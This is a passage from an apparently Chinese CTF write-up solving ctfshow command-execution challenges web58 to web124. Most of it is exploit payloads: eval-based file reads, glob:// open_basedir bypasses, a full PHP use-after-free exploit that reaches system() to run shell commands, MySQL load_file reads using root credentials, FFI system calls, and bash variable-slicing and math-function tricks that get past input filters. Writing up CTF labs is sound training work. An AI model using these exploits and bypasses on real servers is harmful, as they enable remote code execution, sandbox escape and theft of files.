# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```

解法依旧与web58一致

可能我太菜了看不出有什么区别

#### web61

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```

依旧web58

#### web62

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```

依旧...

#### web62

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```

依旧......

#### web63

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```

依旧......


#### web64

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```

嘶，怎么还是那样...


#### web65

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```

同上...

#### web66

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```

本来以为还是一样的，没想到...



看来我们要想办法查目录了

我们可以尝试利用php中查询目录的函数

比如 scandir()


```
var_dump(scandir('/'));
```



接下来就是查flag，可以通过文件包含来查



flag.txt前面记得加上/

#### web67

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```

这题解法与web66一致

#### web68



这题貌似只是show_source和highlight_file用不了，其他没什么变化

可以直接用前两题的方法

也可以直接

```
c=include('/flag.txt') //赌
```

#### web69




这题相比上一题，print_r() 和 var_dump() 也被禁用了

我们可以通过寻找其他可以打印数组的函数来打印目录

我们可以通过var_export()来代替，从而打印目录

```
c=var_export(scandir("/"));
```


接下读flag即可

```
c=include($_POST['w']);&w=php://filter/convert.base64-encode/resource=/flag.txt
```


其他的解法：

查文件

```
?c=echo implode(",",(scandir('/'))); 
?c=echo json_encode(scandir("/"));
```

读文件

```
?c=readgzfile('/flag.txt');
```


#### web70


这题把error_reporting()和ini_set()禁用了

虽然不知道有什么用，不影响我用上一题的方法读flag

#### web71

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
ini_set('display_errors', 0);
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
        $s = ob_get_contents();
        ob_end_clean();
        echo preg_replace("/[0-9]|[a-z]/i","?",$s);
}else{
    highlight_file(__FILE__);
}

?>

你要上天吗？
```

- `$s = ob_get_contents();`：获取输出缓冲区的内容并赋值给变量`s`。输出缓冲区在 PHP 中用于临时存储要输出到浏览器等的内容，以便在合适的时候进行处理或修改。

- `ob_end_clean();`：清空输出缓冲区并关闭它，这样就清除了原始的、未经处理的输出内容，以便后续进行自定义的输出处理。
- `echo preg_replace("/[0-9]|[a-z]/i","?",$s);`：这行代码使用正则表达式对获取到的输出内容（存储在`s`中）进行替换操作。它会将所有的数字和字母（不区分大小写）都替换为`?`，然后将处理后的内容输出到浏览器等输出端。

也就是说这道题会对回显进行处理，让我们没法得到回显

我们可以用exit()/die()提前结束程序，从而不执行后续代码直接进行回显

```
c=var_export(scandir("/"));exit();
```



```
c=readgzfile('/flag.txt');exit();
```


#### web72

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
ini_set('display_errors', 0);
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
        $s = ob_get_contents();
        ob_end_clean();
        echo preg_replace("/[0-9]|[a-z]/i","?",$s);
}else{
    highlight_file(__FILE__);
}

?>

你要上天吗？
```

这道题一开始还以为和上一题差不多



先进行目录查询

```
c=var_export(scandir("./"));exit();
```

注意⚠️ 这道题只有权限查询的当前目录也就是`./`

而无法访问到其他目录的文件，如 / 根目录

> 尝试使用 scandir() 函数来扫描根目录，但由于 open_basedir 限制，这个操作被禁止了。
> open_basedir 是 PHP 的一个安全配置指令，用来限制 PHP 脚本只能访问特定的目录。
> 当前配置只允许访问 /var/www/html/ 目录及其子目录，但不允许访问其他目录。
>
> 原文链接：https://blog.csdn.net/Myon5/article/details/140079942

我们可以尝试用glob协议绕过open_basedir协议

payload:（记得删注释）

```php
c=?><?php $a=new DirectoryIterator("glob:///*");// 创建一个DirectoryIterator对象，遍历根目录
foreach($a as $f)// 遍历每个条目
{
   echo($f->__toString().' ');// 输出条目的名称，并添加一个空格
}
exit(0); // 终止脚本执行
?>
```


或者

payload：（记得删注释）

```php
c=?><?php $a = opendir("glob:///*"); // 打开根目录，并将目录句柄赋值给$a
while (($file = readdir($a)) !== false) { // 循环读取目录中的每个条目
    echo $file . "<br>"; // 输出每个条目的名称，并添加HTML换行标签
};
exit(0); // 终止脚本执行
?>
```

我们可以发现flag0.php

利用uaf的脚本进行命令利用uaf的脚本进行命令执行执行：

尝试执行ls /; cat /flag0.txt命令

```php
c=?><?php
pwn("ls /;cat /flag0.txt");
 
function pwn($cmd) {
    global $abc, $helper, $backtrace;
    class Vuln {
        public $a;
        public function __destruct() { 
            global $backtrace; 
            unset($this->a);
            $backtrace = (new Exception)->getTrace(); # ;)
            if(!isset($backtrace[1]['args'])) { # PHP >= 7.4
                $backtrace = debug_backtrace();
            }
        }
    }
 
    class Helper {
        public $a, $b, $c, $d;
    }
 
    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }
 
    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= sprintf('%c',$ptr & 0xff);
            $ptr >>= 8;
        }
        return $out;
    }
 
    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
            $str[$p + $i] = sprintf('%c',$v & 0xff);
            $v >>= 8;
        }
    }
 
    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }
 
    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);
 
        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);
 
        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);
 
            if($p_type == 1 && $p_flags == 6) { # PT_LOAD, PF_Read_Write
                # handle pie
                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { # PT_LOAD, PF_Read_exec
                $text_size = $p_memsz;
            }
        }
 
        if(!$data_addr || !$text_size || !$data_size)
            return false;
 
        return [$data_addr, $text_size, $data_size];
    }
 
    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                # 'constant' constant check
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;
 
            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                # 'bin2hex' constant check
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;
 
            return $data_addr + $i * 8;
        }
    }
 
    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) { # ELF header
                return $addr;
            }
        }
    }
 
    function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);
 
            if($f_name == 0x6d6574737973) { # system
                return leak($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }
 
    function trigger_uaf($arg) {
        # str_shuffle prevents opcache string interning
        $arg = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');
        $vuln = new Vuln();
        $vuln->a = $arg;
    }
 
    if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for *nix systems only.');
    }
 
    $n_alloc = 10; # increase this value if UAF fails
    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++)
        $contiguous[] = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');
 
    trigger_uaf('x');
    $abc = $backtrace[1]['args'][0];
 
    $helper = new Helper;
    $helper->b = function ($x) { };
 
    if(strlen($abc) == 79 || strlen($abc) == 0) {
        die("UAF failed");
    }
 
    # leaks
    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;
 
    # fake value
    write($abc, 0x60, 2);
    write($abc, 0x70, 6);
 
    # fake reference
    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);
 
    $closure_obj = str2ptr($abc, 0x20);
 
    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
        die("Couldn't determine binary base address");
    }
 
    if(!($elf = parse_elf($base))) {
        die("Couldn't parse ELF header");
    }
 
    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die("Couldn't get basic_functions address");
    }
 
    if(!($zif_system = get_system($basic_funcs))) {
        die("Couldn't get zif_system address");
    }
 
    # fake closure object
    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }
 
    # pwn
    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); # internal func type
    write($abc, 0xd0 + 0x68, $zif_system); # internal func handler
 
    ($helper->b)($cmd);
    exit();
}
?>

```

记得要转url


##### 所以什么是uaf呢？

（先挖个坑回头补）

#### web73

这一题和上一题的区别其实就是flag的文件改名了，我们用上一题的方法读一下文件

```
c=?><?php $a=new DirectoryIterator("glob:///*");// 创建一个DirectoryIterator对象，遍历根目录
foreach($a as $f)// 遍历每个条目
{
   echo($f->__toString().' ');// 输出条目的名称，并添加一个空格
}
exit(0); // 终止脚本执行
?>
```


可以看到一个flagc.txt文件

这题其实已经关闭了open_basedir，所以我们也可以用之前的方法读

```
var_export(scandir('/'));exit();
```

```
echo(implode(' ',scandir('/')));exit();
```

读文件的话上一题的uaf方法被ban了，这题用不了

所以我们还是用之前方法

```
c=readgzfile('/flagc.txt');exit();
```



#### web74



这题我先用之前的方法var_export试试能不能读到目录，发现显示null，应该是open_basedir打开了



接着用glob协议的方法读到了，flag文件名叫做flagx.txt

先用uaf的方法试试



发现这条路被ban掉了



最后用

```
c=readgzfile('/flagx.txt');exit();
```

成功查到了flag

#### web75


这题要用glob查文件，用var_export查不了

接下来是读文件

尝试了uaf和readgzfile之类的方法都失败了

没办法看看大佬怎么做的

我们其实可以用到mysql的load_file方法，从而读到flag

payload:

```php
c=$conn = mysqli_connect("127.0.0.1", "root", "root", "ctftraining"); $sql = "select load_file('/flag36.txt') as a"; $row = mysqli_query($conn, $sql); while($result=mysqli_fetch_array($row)){ echo $result['a']; } exit();
```

豆包解释一下

> 1. 数据库连接：
>    - `$conn = mysqli_connect("127.0.0.1", "root", "root", "ctftraining");`
>    - 这行代码使用 MySQLi 扩展建立了一个与 MySQL 数据库的连接。它指定了数据库服务器的 IP 地址为`127.0.0.1`（本地主机），用户名是`root`，密码也是`root`，要连接的数据库名称是`ctftraining`。如果连接成功，`$conn`将保存这个数据库连接对象，以便后续进行数据库操作；如果连接失败，将会产生一个错误信息（不过在这段代码中没有对连接失败情况做显式处理）。
> 2. SQL 查询语句构建：
>    - `$sql = "select load_file('/flag36.txt') as a";`
>    - 这里构建了一个 SQL 查询语句。`load_file()`是 MySQL 中的一个函数，它的作用是读取指定路径的文件内容，并以字符串的形式返回。在这个查询中，它试图读取服务器上`/flag36.txt`文件的内容，并给查询结果的这一列起了一个别名`a`。
> 3. 执行查询并获取结果：
>    - `$row = mysqli_query($conn, $sql);`
>    - 这行代码使用已经建立好的数据库连接`$conn`来执行前面构建的 SQL 查询语句`$sql`。如果查询执行成功，`$row`将包含查询结果集的资源对象（可以理解为指向查询结果数据的一种引用）；如果查询失败，同样会产生一个错误信息（这里也未做显式处理）。
>    - `while($result=mysqli_fetch_array($row)){ echo $result['a']; }`
>    - 这个`while`循环用于遍历查询结果集。`mysqli_fetch_array()`函数每次从结果集中获取一行数据，并以数组的形式返回。在循环内部，它通过`$result['a']`来获取前面查询中`load_file()`函数读取到的文件内容（因为在查询中给这一列起了别名`a`），并将其输出到屏幕上。
> 4. 程序结束：
>    - `exit();`
>    - 这行代码使得脚本在完成查询结果输出后立即终止执行，不再执行后续可能存在的其他代码。

也可以

用PDO的方法来实现同样的目的

payload:

```php
c=try {$dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root',
'root');foreach($dbh->query('select load_file("/flag36.txt")') as $row)
{echo($row[0])."|"; }$dbh = null;}catch (PDOException $e) {echo $e-
>getMessage();exit(0);}exit(0);
```


> 1. 数据库连接建立：
>    - `$dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root', 'root');`
>    - 这行代码使用 PDO 创建了一个与 MySQL 数据库的连接对象 `$dbh`。它指定了数据库服务器的主机名为 `localhost`，要连接的数据库名称是 `ctftraining`，以及用于登录数据库的用户名 `root` 和密码 `root`。如果连接成功，后续就可以通过这个对象进行数据库相关的操作；如果连接失败，将会抛出一个 `PDOException` 异常。
> 2. 执行查询操作：
>    - `foreach($dbh->query('select load_file("/flag36.txt")') as $row)`
>    - 这里通过已建立的数据库连接对象 `$dbh` 执行了一个 SQL 查询语句 `select load_file("/flag36.txt")`。`load_file()` 是 MySQL 中的一个函数，用于读取指定路径的文件内容。这个查询语句的目的就是获取服务器上 `/flag36.txt` 文件的内容。
>    - 然后使用 `foreach` 循环来遍历查询结果集。每次循环，`$row` 将会获取到查询结果集中的一行数据，由于查询结果只有一列（即 `load_file()` 函数返回的文件内容那一列），所以可以通过 `$row[0]` 来获取这一列的值。
>
> #### 结果输出与资源释放
>
> 1. 结果输出：
>    - `echo($row[0])."|";`
>    - 在每次遍历查询结果集的循环中，这行代码将获取到的文件内容（通过 `$row[0]`）输出到屏幕上，并在后面添加一个 `|` 作为分隔符。
> 2. 数据库连接资源释放：
>    - `$dbh = null;`
>    - 当查询结果处理完毕后，这行代码将数据库连接对象 `$dbh` 设置为 `null`，这有助于释放与该连接相关的资源，确保系统资源的合理利用。
>
> #### 异常处理
>
> 1. 捕获异常：
>    - `catch (PDOException $e) {echo $e->getMessage();exit(0);}`
>    - 整个 `try` 代码块被放置在一个 `try-catch` 语句中。如果在尝试建立数据库连接或执行查询等操作过程中出现任何 `PDOException` 异常（比如数据库连接失败、查询语句语法错误等情况），异常将会被这个 `catch` 块捕获。
>    - 一旦捕获到异常，`catch` 块中的代码将会执行。这里首先通过 `$e->getMessage()` 获取到具体的异常消息，并将其输出到屏幕上，然后使用 `exit(0)` 终止脚本的执行，以防止后续可能出现的错误或未定义行为。

#### web76



这题依旧是用glob协议查目录，得到文件名为flag36d.txt

用上一题mysql的方法，成功查到flag

payload:

```
c=$conn = mysqli_connect("127.0.0.1", "root", "root", "ctftraining"); $sql = "select load_file('/flag36d.txt') as a"; $row = mysqli_query($conn, $sql); while($result=mysqli_fetch_array($row)){ echo $result['a']; } exit();
```

#### web77



用glob协议的方法查出flag文件为flag36x.php，还有一个readflag文件

接下来要看看怎么查文件



上两题用到的读flag的方法（mysql）这题用不了，需要想点其他的方法

官方的wp用 PHP 中的 FFI（Foreign Function Interface）方法来调用 C 语言的 system 函数，并执行一个 Shell 命令。

> ##### 什么是FFI?
>
> PHP FFI（Foreign Function Interface）是 PHP 7.4 及以上版本引入的一个强大功能。它允许 PHP 代码直接调用 C 语言函数，从而实现了 PHP 与 C 语言的高效交互。这为 PHP 开发者提供了一种利用 C 语言的高性能和底层操作系统功能的方式。

payload:

```
$ffi = FFI::cdef("int system(const char *command);");//创建一个system对象
$a='/readflag > 1.txt';//没有回显的
$ffi->system($a);//通过$ffi去调用system函数
```

通过执行目录中的 /readflag 程序并将其输出重定向到文件 1.txt中（因为只是执行的话没有回显）

执行一下


看到有回显应该是成功了，访问一下1.txt



由于当前用户权限不足我们是不能直接读flag36x.php文件中的内容的，只能通过readflag（脚本里面会进行提权）来读


#### web118

原文地址：https://blog.csdn.net/Myon5/article/details/140145005

输入数字和小写字母，回显 evil input


查看源码，发现这里会将提交的参数 code 传给 system 函数 



使用 burpsuite 抓包进行单个字符的模糊测试 fuzz：



发现过滤掉了数字和小写字母以及一些符号，下面框起来的部分是可用的



结合题目提示：flag 在 flag.php



那么我们就需要构造出命令去读取 flag.php

> 我们先来了解一下 Linux 的内置变量
> 在 Linux 系统中，有许多内置变量（环境变量）用于配置系统行为和存储系统信息。
>
> （1）$BASH
>
> 描述：指向当前使用的Bash解释器的路径。
> 示例：/bin/bash
> 用途：用于确定正在使用的Bash版本和路径。
>
> （2） $PATH
>
> 描述：存储一系列路径，这些路径用于查找可执行文件，当你在命令行中输入命令时，系统会在这些路径中查找对应的可执行文件。
> 示例：/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
> 用途：影响命令的查找和执行，可以添加自定义脚本或程序的路径。
>
> （3）$HOME
>
> 描述：当前用户的主目录路径。
> 示例：/home/username
> 用途：表示当前用户的主目录，通常用于存储用户配置文件和个人数据。
>
> （4）$PWD
>
> 描述：当前工作目录（Present Working Directory）。
> 示例：/home/username/projects
> 用途：表示当前的工作目录路径，常用于脚本和命令中获取或显示当前目录。
>
> （5）$USER
>
> 描述：当前登录的用户名。
> 示例：username
> 用途：表示当前用户的名称，常用于显示或检查用户信息。
>
> （6）$SHELL
>
> 描述：当前用户的默认shell。
> 示例：/bin/bash
> 用途：表示用户登录时使用的默认shell路径。
>
> （7）$UID
>
> 描述：当前用户的用户ID。
> 示例：1000（普通用户），0（root用户）
> 用途：标识当前用户的唯一ID。
>
> （8）$IFS
>
> 描述：内部字段分隔符（Internal Field Separator），用于分割输入的字段，默认为空格、制表符和换行符。
> 示例：默认值为<space><tab><newline>
> 用途：影响脚本中的字段分割，常用于处理输入和解析文本。

此外还有很多的内置变量：



接下来我们需要知道 Bash 变量的切片，与 python 的切片类似，目的还是从指定位置开始提取子字符串，用法：${VAR:offset:length}，看例子：

```
${PWD:1:2}
```

提取从第二个字符开始的两个字符，即 ro，在 Bash 中，字符串切片的索引也是从 0 开始的。



如果只填一个参数，会默认从指定的位置开始提取到字符串的末尾：

```
${PWD:3}
```


简单测一下我们就可以看出波浪号的效果：从结尾开始取


但是这里数字被过滤了，因此我们使用大写字母绕过：

可以发现任意的大小写字母与数字 0 等效



不难想到这里的 $PWD 应该是 /var/www/html（网页服务所在的常见路径）；

而 $PATH 的结尾应该也是 /bin（这个在前面我们已经测试过了）。


因此我们可以构造出 nl 命令来读取 flag.php，由于 ? 可用，因此我们可以进行通配，绕过字母的过滤，构造 payload：

```
${PATH:~Q}${PWD:~Q} ????.???
```



当然题目还给了其他 payload：

```
${PATH:${#HOME}:${#SHLVL}}${PATH:${#RANDOM}:${#SHLVL}} ?${PATH:${#RANDOM}:${#SHLVL}}??.???
```

在Bash中，${#var} 的语法用于获取变量 var 的长度（即字符数）。

这种形式可以应用于任何变量，无论是字符串变量还是环境变量。

我们知道 ${HOME} 是 /root，因此 ${#HOME} 就是 5。



以此类推，最终将这些数字应用到切片中去，绕过对数字的过滤，构造出我们想要执行的命令。


#### Web119

先用上一题的payload打了一下，显示evil input

测了一下上题用的PATH被ban了

换个方法

```
${PWD::${#SHLVL}}???${PWD::${#SHLVL}}??${HOME:${#HOSTNAME}:${#SHLVL}} ????.???
相当于/???/??t ????.???
匹配/bin/cat ????.???
```

${#SHLVL}}=1

${PWD::${#SHLVL}} = /

${#HOSTNAME}=4    //用户名的位数，这里用户名是root，故为4


另一种方法

```
${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?????${#RANDOM} ????.???
相当于/???/?????4 ????.??? 或者 /???/?????5 ????.???
想要匹配/bin/base64 ????.???
```
{#RANDOM} = 4或5

由于可能是5，所以要多试几次，还要进行base64解码


#### web120

```php

<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['code'])){
    $code=$_POST['code'];
    if(!preg_match('/\x09|\x0a|[a-z]|[0-9]|PATH|BASH|HOME|\/|\(|\)|\[|\]|\\\\|\+|\-|\!|\=|\^|\*|\x26|\%|\<|\>|\'|\"|\`|\||\,/', $code)){    
        if(strlen($code)>65){
            echo '<div align="center">'.'you are so long , I dont like '.'</div>';
        }
        else{
        echo '<div align="center">'.system($code).'</div>';
        }
    }
    else{
     echo '<div align="center">evil input</div>';
    }
}

?>
```

这题把上题的HOME也ban了，但是第二种方法还能出，而且长度也符合

```
${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?????${#RANDOM} ????.???
```




或

```
${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?${USER:~A}? ????.???
```


#### web121

```php

<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['code'])){
    $code=$_POST['code'];
    if(!preg_match('/\x09|\x0a|[a-z]|[0-9]|FLAG|PATH|BASH|HOME|HISTIGNORE|HISTFILESIZE|HISTFILE|HISTCMD|USER|TERM|HOSTNAME|HOSTTYPE|MACHTYPE|PPID|SHLVL|FUNCNAME|\/|\(|\)|\[|\]|\\\\|\+|\-|_|~|\!|\=|\^|\*|\x26|\%|\<|\>|\'|\"|\`|\||\,/', $code)){    
        if(strlen($code)>65){
            echo '<div align="center">'.'you are so long , I dont like '.'</div>';
        }
        else{
        echo '<div align="center">'.system($code).'</div>';
        }
    }
    else{
     echo '<div align="center">evil input</div>';
    }
}

?>
```

这题SHLVL被ban了，可以用?代替

${#?}=1

payload

```
${PWD::${#?}}???${PWD::${#?}}?????${#RANDOM} ????.???
```

或

```
${PWD::${#?}}???${PWD::${#?}}${PWD::${#?}}?? ????.???
/bin/rev
```

rev是倒叙输出的


#### web122

```php

<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['code'])){
    $code=$_POST['code'];
    if(!preg_match('/\x09|\x0a|[a-z]|[0-9]|FLAG|PATH|BASH|PWD|HISTIGNORE|HISTFILESIZE|HISTFILE|HISTCMD|USER|TERM|HOSTNAME|HOSTTYPE|MACHTYPE|PPID|SHLVL|FUNCNAME|\/|\(|\)|\[|\]|\\\\|\+|\-|_|~|\!|\=|\^|\*|\x26|#|%|\>|\'|\"|\`|\||\,/', $code)){    
        if(strlen($code)>65){
            echo '<div align="center">'.'you are so long , I dont like '.'</div>';
        }
        else{
        echo '<div align="center">'.system($code).'</div>';
        }
    }
    else{
     echo '<div align="center">evil input</div>';
    }
}

?>
```

这题把PWD和#也ban掉了

可以考虑用$?来代替${#1}

$?是表示上一条命令执行结束后的传回值。通常0代表执行成功，非0代表执行有误

所以我们可以构造payload:

```
<A;${HOME::$?}???${HOME::$?}????${RANDOM::$?}? ????.??? 
```

> <A指令不知道是啥，埋个坑


#### web124

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: 收集自网络
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-06 14:04:45

*/

error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
}
```

这题设置了白名单和黑名单，白名单是数学函数，黑名单则是一些符号，而且有长度限制

这题的思路其实就是要考虑用数字通过数学运算函数的转换来构造出我们需要用到的字符

就比如我们可以先将需要的字符转换成16进制后再转换成10进制，再执行命令的时候通过数学函数转换回去

[CTFshow-WEB入门-命令执行web124 - Hacker&Cat - 博客园](https://www.cnblogs.com/FallenStar/articles/17064728.html)

```
目标代码：$_GET['abs']($_GET['acos'])
```

```
dechex()，10进制转16进制

base_convert(值,原进制,目标进制)，任意进制转换

hex2bin，16进制转字符串
```

解题：

base_convert(26941962055,10,34) 为 hex2bin

base_convert(26941962055,10,34)(dechex(1598506324)) 为 _GET

构造payload

```
c=$pi=base_convert(26941962055,10,34)(dechex(1598506324));$$pi{abs}($$pi{asin})&abs=system&asin=ls
```